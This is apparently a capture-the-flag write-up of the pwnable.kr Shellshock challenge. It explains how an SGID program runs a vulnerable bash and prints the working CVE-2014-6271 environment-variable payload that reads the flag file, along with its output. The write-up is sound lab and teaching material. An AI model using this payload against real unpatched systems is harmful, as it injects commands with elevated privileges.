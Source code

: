 ```yaml
---
title: Shellshock - Pwnable.kr
date: 2016-01-15
categories: [Writeups, Pwnable.kr]
tags: ['Bash']
image:
    path: "/unsorted/pwnablekr.png"

---
```


Shellshock indicates a family of bugs who affected bash, which was disclosed
the 24 September 2014 (CVE-2014-6271).  For this challenge we need to use it in
order to get the flag:
   
```console
shellshock@ubuntu:~$ ls -l
-r-xr-xr-x 1 root shellshock2 959120 Oct 12  2014 bash
-r--r----- 1 root shellshock2     47 Oct 12  2014 flag
-r-xr-sr-x 2 root shellshock2   8547 Oct 12  2014 shellshock
-rw-r----- 1 root shellshock     188 Oct 12  2014 shellshock.c
```

Let's first have a look at the programm shellshock as SGID permission is set.
Fortunatly we have the code source:

```c
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

What this program does is pretty simple: it sets the values of his
real/effective/set-user user and group id to the value of his effective group
id and then executes a bash which we can suppose being a vulnerable version.
Now, looking at the permissions of the executable shellshock `-r-xr-sr-x 2 root
shellshock2` we can understand that when we execute shellshock his effective
group id will be the one of the group shellshock2.  This means that the
vulnerable version of bash will be executed with the privileges of shellshock2.


As you can see bash gets executed with the option `-c` that means that the
commands will not be read from the standard input.  So far no way to interact
with the vulnerable bash, but reading a few articles on how the vulnerability
shellshock actually works it's enough to understand how to pass this challenge.


In order to exploit this vulnerability we can set an environment variable
containing a function and the commands we want to execute:

```console
shellshock@ubuntu:~$ export werew="() { :; }; /bin/cat flag;"
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
```

Some nice resources:   
<http://fedoramagazine.org/shellshock-how-does-it-actually-work/>   
<http://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited>   
<http://unixpapa.com/incnote/setuid.html>





